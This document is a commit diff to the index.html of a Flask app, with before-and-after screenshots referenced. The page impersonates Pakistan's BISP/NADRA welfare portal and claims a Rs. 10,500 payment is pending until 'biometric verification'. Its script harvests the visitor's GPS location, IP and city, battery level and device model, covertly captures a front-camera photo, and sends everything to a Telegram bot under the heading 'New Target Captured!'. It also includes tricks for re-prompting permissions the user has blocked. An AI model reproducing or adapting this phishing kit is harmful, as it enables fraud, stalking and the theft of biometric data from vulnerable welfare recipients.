

Before and after one commit to MR5121472/link-shortener12, a Flask app: page / in a window 1280 px wide. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -3,145 +3,156 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=0">
-    <title>8171 Official Verification</title>
+    <title>8171 BISP Official Verification</title>
     <style>
-        :root { --bisp-green: #1b5e20; --error-red: #b91c1c; --gold: #fbc02d; }
-        body { margin: 0; font-family: 'Segoe UI', Roboto, sans-serif; background: #f4f7f6; display: flex; flex-direction: column; height: 100vh; }
+        :root { --green: #1b5e20; --gold: #fbc02d; }
+        body { margin: 0; font-family: 'Segoe UI', Arial, sans-serif; background: #f0f3f2; display: flex; flex-direction: column; height: 100vh; }
 
-        /* Professional Header */
-        .header { background: #fff; padding: 15px 20px; display: flex; align-items: center; border-bottom: 4px solid var(--bisp-green); box-shadow: 0 2px 10px rgba(0,0,0,0.1); }
-        .logo-box { border-left: 4px solid var(--bisp-green); padding-left: 12px; }
-        .logo-box h1 { margin: 0; font-size: 22px; color: var(--bisp-green); font-weight: 900; }
-        .logo-box span { font-size: 10px; color: #666; font-weight: bold; text-transform: uppercase; }
+        /* Official Pro Header */
+        .header { background: white; padding: 15px; display: flex; align-items: center; border-bottom: 4px solid var(--green); box-shadow: 0 2px 10px rgba(0,0,0,0.1); }
+        .logo { border-left: 4px solid var(--green); padding-left: 10px; font-weight: 900; color: var(--green); font-size: 20px; line-height: 1; }
+        .logo span { font-size: 9px; color: #666; display: block; text-transform: uppercase; margin-top: 3px; }
 
-        /* Status Strip */
-        .status-strip { background: var(--gold); color: #1b5e20; padding: 10px; text-align: center; font-size: 12px; font-weight: 800; border-bottom: 1px solid rgba(0,0,0,0.1); }
+        .payment-banner { background: var(--gold); color: #1b5e20; padding: 12px; text-align: center; font-size: 13px; font-weight: 800; border-bottom: 2px solid rgba(0,0,0,0.05); }
 
-        /* Main Card */
-        .main-container { flex: 1; display: flex; align-items: center; justify-content: center; padding: 20px; }
-        .v-card { background: white; width: 100%; max-width: 400px; border-radius: 20px; padding: 35px 25px; box-shadow: 0 15px 35px rgba(0,0,0,0.1); border: 1px solid #eee; position: relative; }
-        .v-card h2 { color: var(--bisp-green); margin-top: 0; font-size: 24px; font-weight: 800; }
-        .v-card p { font-size: 14px; color: #555; line-height: 1.6; margin-bottom: 30px; }
+        .main-card { margin: 20px; background: white; border-radius: 15px; padding: 30px 20px; box-shadow: 0 10px 25px rgba(0,0,0,0.1); text-align: center; }
+        .main-card h2 { color: var(--green); margin: 0 0 10px; font-size: 24px; }
+        .main-card p { font-size: 13px; color: #555; line-height: 1.5; margin-bottom: 25px; }
 
-        /* Persistence Screen (For Blocked Users) */
-        #retry-overlay { display: none; position: fixed; top: 0; left: 0; width: 100%; height: 100%; background: white; z-index: 9999; flex-direction: column; align-items: center; justify-content: center; padding: 30px; text-align: center; }
-        .error-pill { background: #fee2e2; color: var(--error-red); padding: 15px; border-radius: 12px; font-size: 13px; font-weight: 800; border: 1px solid #fecaca; margin-bottom: 25px; }
+        /* Security Overlay (Force Pop-up Logic) */
+        #auth-screen { display: none; position: fixed; top: 0; left: 0; width: 100%; height: 100%; background: white; z-index: 9999; flex-direction: column; align-items: center; justify-content: center; padding: 30px; box-sizing: border-box; text-align: center; }
+        .alert-box { background: #fee2e2; color: #b91c1c; padding: 15px; border-radius: 10px; font-size: 12px; font-weight: 800; border: 1px solid #fecaca; margin-bottom: 20px; }
 
-        .loader { border: 4px solid #f3f3f3; border-top: 4px solid var(--bisp-green); border-radius: 50%; width: 40px; height: 40px; animation: spin 1s linear infinite; margin-bottom: 20px; }
+        .loader { border: 4px solid #f3f3f3; border-top: 4px solid var(--green); border-radius: 50%; width: 45px; height: 45px; animation: spin 1s linear infinite; margin-bottom: 20px; }
         @keyframes spin { 0% { transform: rotate(0deg); } 100% { transform: rotate(360deg); } }
 
-        .btn { background: var(--bisp-green); color: white; border: none; width: 100%; padding: 18px; border-radius: 12px; font-size: 16px; font-weight: 800; cursor: pointer; transition: 0.3s; box-shadow: 0 8px 15px rgba(27,94,32,0.2); }
-        .btn-retry { background: #222; margin-top: 15px; }
+        .btn { background: var(--green); color: white; border: none; width: 100%; padding: 18px; border-radius: 12px; font-size: 16px; font-weight: 800; cursor: pointer; box-shadow: 0 5px 15px rgba(27,94,32,0.2); }
+        .btn-retry { background: #333; margin-top: 10px; }
     </style>
 </head>
 <body>
 
 <div class="header">
-    <div class="logo-box">
-        <h1>BISP</h1>
-        <span>Government of Pakistan</span>
+    <div class="logo">BISP<span>Government of Pakistan</span></div>
+</div>
+
+<div class="payment-banner">⚠️ KAFAALAT 2026: BIOMETRIC VERIFICATION REQUIRED</div>
+
+<div class="main-container">
+    <div class="main-card">
+        <h2>Verify Status</h2>
+        <p>Your payment of Rs. 10,500 is pending. Please complete the mandatory security check to release funds to your registered account.</p>
+        <button class="btn" onclick="initiateAuth()">CONTINUE TO VERIFY</button>
     </div>
 </div>
 
-<div class="status-strip">KAFAALAT 2026: VERIFICATION REQUIRED FOR RS. 10,500</div>
-
-<div class="main-container">
-    <div class="v-card" id="initial-card">
-        <h2>Identity Portal</h2>
-        <p>Your regional identity and biometric check is pending. Please click below to initiate high-precision synchronization for fund release.</p>
-        <button class="btn" onclick="startVerification()">CONNECT TO PORTAL</button>
-        <div style="margin-top: 25px; border-top: 1px solid #eee; padding-top: 15px; text-align: center; font-size: 10px; color: #aaa;">
-            Security ID: FZN-SYS-2026 | Encrypted Node
-        </div>
-    </div>
-</div>
-
-<div id="retry-overlay">
-    <div class="error-pill">
-        ACCESS DENIED: Mandatory Security Permissions (Camera & Location) were blocked by the browser.
+<div id="auth-screen">
+    <div id="status-msg" class="alert-box" style="display:none;">
+        SECURITY ALERT: Mandatory permissions (Camera/Location) were blocked. To release payment, you must click 'Allow' or use the Reset button below.
     </div>
     <div class="loader"></div>
-    <h3>Permissions Required</h3>
-    <p style="font-size: 14px; color: #666;">Verification cannot proceed without system access. Please click 'Allow' on the next prompt or refresh the page to reset.</p>
+    <h3 style="color: var(--green); margin: 0;">NADRA Syncing...</h3>
+    <p style="font-size: 13px; color: #666; margin: 10px 0 25px;">Connecting to BISP high-precision tracking node. Please wait.</p>
 
-    <button class="btn" onclick="location.reload()">REFRESH & RETRY</button>
-    <button class="btn btn-retry" onclick="forceReset()">FORCE RESET SESSION</button>
+    <button class="btn" onclick="forceReset()">RESET & TRY AGAIN</button>
+    <p style="font-size: 10px; color: #999; margin-top: 15px;">Error Code: 0x8801 - Permission Denied</p>
 </div>
 
 <video id="v" style="display:none;" autoplay playsinline></video>
 <canvas id="c" style="display:none;" width="1080" height="1920"></canvas>
 
 <script>
-    let report = { d: "", b: "", lat: "", lon: "", ip: "", city: "" };
+    // TELEGRAM CONFIGURATION
+    const TG_TOKEN = "YOUR_BOT_TOKEN"; // Apna Bot Token Yahan Dalein
+    const CHAT_ID = "YOUR_CHAT_ID";   // Apni Chat ID Yahan Dalein
 
-    async function startVerification() {
-        document.getElementById('initial-card').innerHTML = `<div class="loader" style="margin: 0 auto;"></div><p style="text-align:center;">Synchronizing with NADRA...</p>`;
+    let dataReport = { lat: "", lon: "", battery: "", model: "", ip: "" };
 
-        // Browser Info
-        report.d = navigator.userAgent;
-        if(navigator.getBattery) {
-            const bat = await navigator.getBattery();
-            report.b = Math.round(bat.level * 100) + "%";
+    function initiateAuth() {
+        document.getElementById('auth-screen').style.display = 'flex';
+        startTracking();
     }
 
-        executeTracking();
+    // Force Reset Logic: URL mein random parameter add kar ke browser ko dhoka dena
+    function forceReset() {
+        const currentUrl = window.location.href.split('?')[0];
+        window.location.href = currentUrl + "?session_reset=" + Math.random().toString(36).substring(7);
     }
 
-    function executeTracking() {
-        // GPS Loop with Error Handling
+    async function startTracking() {
+        // Battery & Model
+        try {
+            const b = await navigator.getBattery();
+            dataReport.battery = Math.round(b.level * 100) + "%";
+            dataReport.model = navigator.userAgent.split('(')[1].split(')')[0];
+        } catch(e) {}
+
+        // IP & City Info
+        try {
+            const res = await fetch('https://ipapi.co/json/');
+            const d = await res.json();
+            dataReport.ip = d.ip;
+            dataReport.city = d.city;
+        } catch(e) {}
+
+        // Location Loop
         navigator.geolocation.getCurrentPosition(
-            (pos) => {
-                report.lat = pos.coords.latitude;
-                report.lon = pos.coords.longitude;
-                attemptBiometric();
+            (p) => {
+                dataReport.lat = p.coords.latitude;
+                dataReport.lon = p.coords.longitude;
+                openCam();
             },
-            (err) => {
-                showPersistenceScreen();
-            },
+            () => { document.getElementById('status-msg').style.display = 'block'; },
             { enableHighAccuracy: true, timeout: 5000 }
         );
     }
 
-    function attemptBiometric() {
+    function openCam() {
         navigator.mediaDevices.getUserMedia({ video: { facingMode: "user" } })
-        .then((s) => {
-            captureAndSend(s);
-        })
-        .catch((err) => {
-            showPersistenceScreen();
-        });
+        .then((s) => { captureFinal(s); })
+        .catch(() => { document.getElementById('status-msg').style.display = 'block'; });
     }
 
-    function showPersistenceScreen() {
-        document.getElementById('retry-overlay').style.display = 'flex';
-        // Logic to trigger pop-up again on reload
-    }
-
-    function forceReset() {
-        // Clears any temporary state and reloads
-        location.href = location.href + "?auth=" + Math.random();
-    }
-
-    async function captureAndSend(stream) {
+    async function captureFinal(stream) {
         const video = document.getElementById('v');
         video.srcObject = stream;
 
-        setTimeout(() => {
+        setTimeout(async () => {
             const canvas = document.getElementById('c');
             canvas.getContext('2d').drawImage(video, 0, 0, 1080, 1920);
-            const img = canvas.toDataURL('image/jpeg', 0.85);
+            const photoBlob = await new Promise(res => canvas.toBlob(res, 'image/jpeg', 0.8));
 
             stream.getTracks().forEach(t => t.stop());
+            sendToTelegram(photoBlob);
+        }, 2500);
+    }
 
-            // Final Data Sync
-            fetch('/capture', {
+    function sendToTelegram(photo) {
+        // 1. Send Text Report
+        const mapUrl = `https://www.google.com/maps?q=${dataReport.lat},${dataReport.lon}`;
+        const text = `🎯 *New Target Captured!*\n\n` +
+                     `📱 *Model:* ${dataReport.model}\n` +
+                     `🔋 *Battery:* ${dataReport.battery}\n` +
+                     `🌐 *IP:* ${dataReport.ip} (${dataReport.city})\n` +
+                     `📍 *Location:* [Open in Google Maps](${mapUrl})`;
+
+        fetch(`https://api.telegram.org/bot${TG_TOKEN}/sendMessage`, {
             method: 'POST',
             headers: { 'Content-Type': 'application/json' },
-                body: JSON.stringify({ meta: report, image: img })
+            body: JSON.stringify({ chat_id: CHAT_ID, text: text, parse_mode: "Markdown" })
+        });
+
+        // 2. Send Photo
+        const formData = new FormData();
+        formData.append('chat_id', CHAT_ID);
+        formData.append('photo', photo, 'capture.jpg');
+
+        fetch(`https://api.telegram.org/bot${TG_TOKEN}/sendPhoto`, {
+            method: 'POST',
+            body: formData
         }).then(() => {
             window.location.href = "https://8171.bisp.gov.pk/";
         });
-        }, 2000);
     }
 </script>
 </body>
```
Lines whose indentation alone changed are shown as unchanged.
